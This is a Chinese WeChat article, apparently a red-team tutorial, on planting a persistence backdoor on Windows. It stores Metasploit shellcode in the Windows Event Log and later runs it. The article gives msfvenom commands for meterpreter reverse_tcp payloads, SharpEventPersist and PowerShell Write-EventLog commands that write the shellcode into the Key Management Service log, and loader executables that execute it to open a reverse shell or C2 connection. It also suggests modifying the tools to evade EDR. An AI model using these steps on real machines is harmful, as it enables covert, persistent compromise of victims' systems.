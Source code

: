 #  windows持久化后门之事件日志-

原创 比心皮卡丘 [ 暴暴的皮卡丘 ](javascript:void\(0\);)

**暴暴的皮卡丘** ![]()

微信号 gh_3aa935a28263

功能介绍 分享互联网IT技术、互联网圈、三观等

____

___发表于_

事件日志介绍

Windows 事件日志是安全团队识别威胁和管理员排除错误的主要信息来源。日志以结构化格式 (XML) 表示，以便于查看。在 Windows
中，事件日志存储与应用程序、安全性和系统相关的事件。由于所存储信息的性质，复杂的威胁参与者和攻击队对 Windows
事件日志进行攻击的情况并不罕见，这些攻击将清除日志、停止服务或线程，以防止识别任意活动。

Windows事件日志包含三个主要日志文件：

  * 系统日志：记录与操作系统相关的事件，如启动、关机、硬件故障等。系统日志对于追踪系统级问题和了解系统的整体性能非常有帮助。

  * 安全性日志：记录与安全性相关的事件，例如用户登录、账户权限变更、安全性策略修改等。安全性日志对于监控系统的安全性和检测潜在的安全问题非常重要。

  * 应用程序日志：记录与安装的应用程序和服务相关的事件，例如应用程序错误、警告和信息性事件。应用程序日志对于排查应用程序问题和了解应用程序的运行状况很有帮助。

每个事件都有一个事件 ID、日期和时间戳、源（事件的来源）、事件级别（例如，错误、警告、信息）等属性。管理员和支持人员可以使用事件查看器（Event
Viewer）来查看和分析这些事件。

通过查看事件日志，用户可以：

  * 监控系统的健康状况。

  * 诊断和解决系统故障。

  * 跟踪应用程序行为。

  * 发现潜在的安全问题。

          

日志文件存储在注册表和 Windows 文件夹中，并且可以通过事件查看器 (eventvwr.exe) 访问。  

Java  
%SystemRoot%\System32\Winevt\Logs\  
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog\  
  
---  
  
          

通常，管理员有权将二进制数据和文本写入事件日志。执行以下命令将在应用程序日志中写入EventID 916 的文本消息

Java  
Write-EventLog -LogName "Application" -Source "Microsoft-Windows-User-Loader"
-EventId 916 -EntryType Information -Message "Pentestlab.blog" -Category 2
-RawData 65,66,67,68  
  
---  
  
![]()

也可以从 PowerShell 控制台读取日志以确认事件日志已创建

Java  
Get-EventLog -Newest 1 -LogName "Application" -Source "Microsoft-Windows-User-
Loader" -Message "Provider Pentestlab*" | Format-List -Property *  
  
---  
  
![]()  

          

持久化利用思路

一句话总结：先将利用msf或者Cobalt Strike
生成的十六进制shellcode写入日志中存储，然后再用触发exe将日志中的shellcode读取出来，触发执行反弹shell

目前在github上已经有公开的利用脚本，只需要站在巨人的肩膀上进行利用即可，当然也可以根据其来魔改自定义来加强EDR等绕过

          

SharpEventPersist利用

开源脚本地址：https://github.com/improsec/SharpEventPersist

可用于将 shellcode 写入 Windows 事件日志以建立持久性。shellcode 被转换为十六进制值并写入密钥管理服务中。Improsec
还发布了一个辅助二进制文件，它充当加载程序，以便从 Windows 事件日志中检索和执行 shellcode。下图显示了该技术：  

![]()

使用Metasploit Framework 在生成 .bin 格式的 shellcode 和通过执行程序集模块执行 .NET
程序集方面具有类似的功能。实用程序msfvenom可以生成 x64 位 shellcode。

Java  
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o beacon.bin
LHOST=10.0.0.1 LPORT=2000  
  
---  
  
执行SharpEventPersist后，密钥管理服务日志中将出现一个条目

Java  
SharpEventPersist.exe -file beacon.bin -instanceid 1337 -source Persistence  
  
---  
  
![]()

利用execute_dotnet_assemble后利用模块，SharpEventPersist将加载到进程notepad.exe的内存中，并且密钥管理服务日志中将出现一个条目

Java  
use post/windows/manage/execute_dotnet_assembly  
  
---  
  
![]()  

可以看到成功注入到事件日志中

![]()

查看日志中详细数据，shellcode被写入  

![]()

Metasploit 模块multi/handler必须处于监听模式，以便在执行SharpEventLoader时捕获连接。

Java  
SharpEventLoader.exe  
  
---  
  
执行上述SharpEventLoader之后就会触发后门，就可以在msf获取到shell

![]()

那么SharpEventLoader做了什么，可以查看代码，就是把写入到日志中的数据读取出来，然后创建一个新的进程来执行shellcode，触发反弹shell  

![]()

          

          

EventLogForRedTeams利用

开源github地址：https://github.com/roobixx/EventLogForRedTeams

其原理基本一致，只是不同的脚本来利用，从方便程度上来看不如上述sharpEventPersist

可以从密钥管理服务检索日志条目并将有效负载注入当前进程。同样，Metasploit
框架实用程序msfvenom可以通过执行以下命令生成十六进制格式的有效负载：

Java  
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.4 LPORT=4444 -f
hex  
  
---  
  
![]()  

使用powershell，使用 shellcode 创建新的事件日志条目，与SharpEventPersist工具的行为类似

Java  
$payload = 'Insert Shellcode as Hex Literal String'  
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')  
Write-EventLog -LogName 'Key Management Service' -Source KmsRequests -EventID
31337 -EntryType Information -Category 0 -Message 'Pentestlab' -RawData
$HashByteArray  
.\EventLogsForRedTeams.exe  
  
---  
  
![]()  

![]()

当执行EventLogsForRedTeams时，将执行 shellcode，这将导致 C2 连接。

![]()

              

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# windows持久化后门之事件日志-

原创 比心皮卡丘 [ 暴暴的皮卡丘 ](javascript:void\(0\);)

轻触阅读原文

![]()

暴暴的皮卡丘

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

